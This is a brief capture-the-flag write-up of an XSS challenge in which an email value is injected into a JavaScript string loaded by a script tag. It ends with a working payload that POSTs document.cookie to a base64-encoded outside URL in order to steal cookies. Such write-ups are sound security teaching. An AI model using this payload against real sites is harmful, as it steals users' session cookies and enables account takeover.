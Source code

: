 # 22-final xss
## author: melon

* the email is injected directly into a `.js` file which is loaded through `<script src="<email>.js">`
* it's injected directly into javascript context, in a string, so you can do `'-alert(1)-'` to get xss
* it's a bit harder to get the cookie, as the content is loaded through a script tag's src
    * this breaks comments, hence you can't do `'; fetch(...) //`
    * it also breaks using `https://` in your `fetch` url, so use `fetch(atob('...'))`
    * it also breaks using cookies as easily (maybe?) but you can do a post request

```
'-fetch(atob(`<base64 url>`),{method:`POST`,body:document.cookie})-'
```
